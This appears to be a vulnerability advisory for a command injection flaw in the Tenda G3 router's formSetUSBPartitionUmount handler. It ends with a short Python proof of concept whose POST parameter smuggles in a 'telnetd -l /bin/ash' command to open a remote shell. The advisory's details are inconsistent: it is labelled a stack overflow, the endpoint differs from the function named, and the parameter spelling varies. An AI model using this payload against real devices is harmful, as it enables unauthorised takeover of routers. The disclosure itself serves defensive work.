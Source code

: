 # Tenda G3 formSetUSBPartitionUmount
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a command injection in the formSetUSBPartitionUmount function.
### Vulnerability details
Command injection in function formSetUSBPartitionUmount on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetUSBPartitionUmount line 12, it reads in a usbPartionName parameter, and the variable usbPartionName is passed to the doSystemCmd function , which may cause command injection. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetUSBPartitionUmount-1.png)
![](images/formSetUSBPartitionUmount-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addDhcpRule'
payload = "usbPartitionName=sda1;telnetd -l /bin/ash"

res = requests.post(url=url, data=payload)
print(res.content)
```
